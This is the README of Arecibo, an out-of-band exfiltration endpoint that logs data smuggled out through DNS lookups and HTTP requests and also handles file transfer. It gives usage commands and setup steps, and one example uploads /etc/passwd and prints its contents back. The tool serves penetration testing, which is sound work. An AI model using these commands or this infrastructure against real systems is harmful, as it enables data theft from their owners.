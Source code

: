 # Arecibo
Endpoint for Out-of-Band Exfiltration (DNS & HTTP)

#### Authors
Juan Manuel Fernández ([@TheXC3LL](https://twitter.com/TheXC3LL)) & Pablo Martinez ([@Xassiz](https://twitter.com/Xassiz))


## DNS Exfiltration
Create a new token:
```
curl localhost:5000/generatedns

{"htoken": "c008b5dd22817c50441522f917c66743"} 
```
Now you can use this identificative token to do DNS resolutions (ABCD.TOKEN.x.yourdomain.com):

```
> test-exfiltracion.c008b5dd22817c50441522f917c66743.x.DOMINIO
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   DOMINIO
Address: 127.0.0.1
```

You can check the hits and the data exfiltrated via /hitsdns/TOKEN:

```
curl localhost:5000/hitsdns/c008b5dd22817c50441522f917c66743

{"hits": [{"htoken": "c008b5dd22817c50441522f917c66743", "data": "test-exfiltracion", "id": 9, "timestamp": 1541748637.165287}]} 

```

If you want all the data concatenated use /dumpdns/token:

```
curl localhost/dumpdns/c008b5dd22817c50441522f917c66743

{"dump": "test-exfiltracionconcatenatedtootherinfo"}
```

## HTTP Exfiltration

Generate token:
```
curl localhost:5000/generatehttp

{"htoken": "2aa88ba02cbc0d6b72213fc117ae03dc"}
```

Now you can exfiltrate information through HTTP requests ( http://yourodmain.com/h/TOKEN). The GET / POST parameters, headers and IP will be registered by Arecibo. 

```
curl http://localhost:50000/h/2aa88ba02cbc0d6b72213fc117ae03dc
It works!
```

To retrieve de info, use /hitshttp/TOKEN:

```
 curl http://localhost:5000/hitshttp/2aa88ba02cbc0d6b72213fc117ae03dc
 
{"hits": [{"get": {}, "timestamp": 1541592259.541545, "headers": {"X-Real-Ip": "x", "Connection": "close", "Host": "x", "Accept": "*/*", "User-Agent": "curl/7.55.1"}, "htoken": "2aa88ba02cbc0d6b72213fc117ae03dc", "post": {}, "ip_address": "x"}]}
```

If you need to show an arbitrary HTML, HEADERS or status code use the POST method to set its values (body must be base64-encoded):

```
curl localhost:5000/generatehttp -H "Content-Type: application/json" --data '{"body" :"SGVsbG8gd29ybGQhIAo=", "headers":{"Server":"PWNED"}, "status" : 504}'
{
    "htoken": "324e18288eed54548392c5a65514b3dc"
}
```

## Dynamic DNS resolution
Arecibo resolves dominais with the schema X.Y.Z.A.ip.yourdomain.com as X.Y.Z.A:
```
> 10.0.0.1.ip.yourdomain.com
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   yourdomain.com
Address: 10.0.0.1
```

## File Transfer

Upload a file using /upload endpoint:
```
curl localhost:5000/upload -F 'x-file=@/etc/passwd'

{"htoken": "36981274bdb9cc833472681caeb82337"}
```

To download it use the generated token:

```
curl localhost:5000/download/36981274bdb9cc833472681caeb82337 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## IP info

Shows client IP via /ip:

```
curl localhost:5000/ip
{"ip": "127.0.0.1"}
```

## Installing & Configuring

You need to install pdns & pdns-backend-pipe from your distro repos, and the modules flask & flask_restful for python.

1. Edit the configuration of arecibo-dns-backend.py with your values
2. Set execution privileges `chmod +x arecibo-dns-backend.py`
3. Edit pdns.conf (check where is in your distro)
```
setuid=1001
setgid=1001
launch=pipe
pipe-command=/your/path/arecibo-dns-backend.py
```
(Change the setuid/setgid for the values used to run the API script, they must be the same)

4. Run arecibo-api.py & pdns_server (check where is in your distro)

**YOUR SERVER MUST BE CONFIGURED AS AUTHORITATIVE DNS FOR YOUR DOMAIN**

**IMPORTANT:** You must set up a nginx or other reverse proxy in front of Arecibo in order to provide authentication & security.
